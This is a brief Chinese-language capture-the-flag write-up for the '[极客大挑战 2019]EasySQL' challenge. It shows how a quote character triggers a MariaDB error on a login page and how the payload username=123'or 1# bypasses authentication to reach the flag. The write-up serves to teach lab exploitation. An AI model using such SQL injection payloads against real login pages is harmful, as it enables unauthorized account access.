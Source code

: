 # [极客大挑战 2019]EasySQL
访问url，是一个登录页面，使用Burp Suite抓包，修改账号密码

在用户名后添加单引号：`/check.php?username=123'&password=123`

发现报错：
```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '123'' at line 1
```

尝试构造弱口令：
`/check.php?username=123'or%201%23&password=123`

get flag!
